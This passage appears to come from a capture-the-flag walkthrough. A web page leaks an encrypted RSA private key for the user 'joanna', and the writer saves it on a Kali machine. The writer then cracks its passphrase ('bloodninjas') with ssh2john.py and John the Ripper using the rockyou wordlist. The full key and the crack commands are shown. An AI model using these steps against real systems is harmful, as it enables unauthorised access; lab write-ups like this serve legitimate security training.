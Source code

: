 ```shell
qlNgzj0Na4ZNMyRAHEl1SF8a72umGO2xLWebDoYf5VSSSZYtCNJdwt3lF7I8+adt
z0glMMmjR2L5c2HdlTUt5MgiY8+qkHlsL6M91c4diJoEXVh+8YpblAoogOHHBlQe
K1I1cqiDbVE/bmiERK+G4rqa0t7VQN6t2VWetWrGb+Ahw/iMKhpITWLWApA3k9EN
-----END RSA PRIVATE KEY-----
</pre><html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```

Then, create the following file on the local Kali machine.
```shell
root@kali:~# cat joanna_key 
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2AF25344B8391A25A9B318F3FD767D6D

kG0UYIcGyaxupjQqaS2e1HqbhwRLlNctW2HfJeaKUjWZH4usiD9AtTnIKVUOpZN8
ad/StMWJ+MkQ5MnAMJglQeUbRxcBP6++Hh251jMcg8ygYcx1UMD03ZjaRuwcf0YO
ShNbbx8Euvr2agjbF+ytimDyWhoJXU+UpTD58L+SIsZzal9U8f+Txhgq9K2KQHBE
6xaubNKhDJKs/6YJVEHtYyFbYSbtYt4lsoAyM8w+pTPVa3LRWnGykVR5g79b7lsJ
ZnEPK07fJk8JCdb0wPnLNy9LsyNxXRfV3tX4MRcjOXYZnG2Gv8KEIeIXzNiD5/Du
y8byJ/3I3/EsqHphIHgD3UfvHy9naXc/nLUup7s0+WAZ4AUx/MJnJV2nN8o69JyI
9z7V9E4q/aKCh/xpJmYLj7AmdVd4DlO0ByVdy0SJkRXFaAiSVNQJY8hRHzSS7+k4
piC96HnJU+Z8+1XbvzR93Wd3klRMO7EesIQ5KKNNU8PpT+0lv/dEVEppvIDE/8h/
/U1cPvX9Aci0EUys3naB6pVW8i/IY9B6Dx6W4JnnSUFsyhR63WNusk9QgvkiTikH
40ZNca5xHPij8hvUR2v5jGM/8bvr/7QtJFRCmMkYp7FMUB0sQ1NLhCjTTVAFN/AZ
fnWkJ5u+To0qzuPBWGpZsoZx5AbA4Xi00pqqekeLAli95mKKPecjUgpm+wsx8epb
9FtpP4aNR8LYlpKSDiiYzNiXEMQiJ9MSk9na10B5FFPsjr+yYEfMylPgogDpES80
X1VZ+N7S8ZP+7djB22vQ+/pUQap3PdXEpg3v6S4bfXkYKvFkcocqs8IivdK1+UFg
S33lgrCM4/ZjXYP2bpuE5v6dPq+hZvnmKkzcmT1C7YwK1XEyBan8flvIey/ur/4F
FnonsEl16TZvolSt9RH/19B7wfUHXXCyp9sG8iJGklZvteiJDG45A4eHhz8hxSzh
Th5w5guPynFv610HJ6wcNVz2MyJsmTyi8WuVxZs8wxrH9kEzXYD/GtPmcviGCexa
RTKYbgVn4WkJQYncyC0R1Gv3O8bEigX4SYKqIitMDnixjM6xU0URbnT1+8VdQH7Z
uhJVn1fzdRKZhWWlT+d+oqIiSrvd6nWhttoJrjrAQ7YWGAm2MBdGA/MxlYJ9FNDr
1kxuSODQNGtGnWZPieLvDkwotqZKzdOg7fimGRWiRv6yXo5ps3EJFuSU1fSCv2q2
XGdfc8ObLC7s3KZwkYjG82tjMZU+P5PifJh6N0PqpxUCxDqAfY+RzcTcM/SLhS79
yPzCZH8uWIrjaNaZmDSPC/z+bWWJKuu4Y1GCXCqkWvwuaGmYeEnXDOxGupUchkrM
+4R21WQ+eSaULd2PDzLClmYrplnpmbD7C7/ee6KDTl7JMdV25DM9a16JYOneRtMt
qlNgzj0Na4ZNMyRAHEl1SF8a72umGO2xLWebDoYf5VSSSZYtCNJdwt3lF7I8+adt
z0glMMmjR2L5c2HdlTUt5MgiY8+qkHlsL6M91c4diJoEXVh+8YpblAoogOHHBlQe
K1I1cqiDbVE/bmiERK+G4rqa0t7VQN6t2VWetWrGb+Ahw/iMKhpITWLWApA3k9EN
-----END RSA PRIVATE KEY-----
```

However, we still need a passphrase for the ssh key.<br>
We have `ssh2john.py` to generate a password hash for the ssh key.
```shell
root@kali:~# /usr/share/john/ssh2john.py joanna_key >> hash.txt

root@kali:~# john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 8 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
bloodninjas      (joanna_key)
Warning: Only 2 candidates left, minimum 8 needed for performance.
1g 0:00:00:03 DONE (2020-07-15 00:11) 0.3174g/s 4552Kp/s 4552Kc/s 4552KC/sa6_123..*7¡Vamos!
Session completed
```
